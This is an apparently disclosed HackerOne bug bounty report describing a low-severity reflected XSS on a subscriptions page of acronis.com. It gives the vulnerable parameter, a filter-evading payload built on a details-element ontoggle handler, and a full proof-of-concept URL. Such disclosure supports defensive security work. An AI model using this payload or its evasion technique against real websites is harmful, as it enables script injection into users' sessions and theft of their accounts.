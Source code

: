 # Reflected XSS on www.acronis.com/de-de/my/subscriptions/index.html

## Report Details
- **Report ID**: 1145712
- **URL**: https://hackerone.com/reports/1145712
- **State**: Closed
- **Severity**: low
- **Submitted**: 2021-04-02T21:00:15.606Z
- **Disclosed**: 2024-08-27T14:01:25.222Z

## Reporter
- **Username**: cabelo
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: acronis

## Vulnerability Information
Hello Team,

I would like to report a Reflected XSS vulnerability on https://www.acronis.com/de-de/my/subscriptions/index.html

Vulnerable parameter: b
Payload: '"1<!--></Title/</Textarea/</Script/><Details/Open/OnToggle=(confirm)(1)>

POC:
```
 https://www.acronis.com/de-de/my/subscriptions/index.html?b='"1<!--></Title/</Textarea/</Script/><Details/Open/OnToggle=(confirm)(1)>&u=ine3
```
{F1252106}

## Impact

A XSS attack allows an attacker to execute arbitrary JavaScript in the context of the attacked website and the attacked user.

## Attachments
- 1617396893_1754_02042021_1586x1042.png

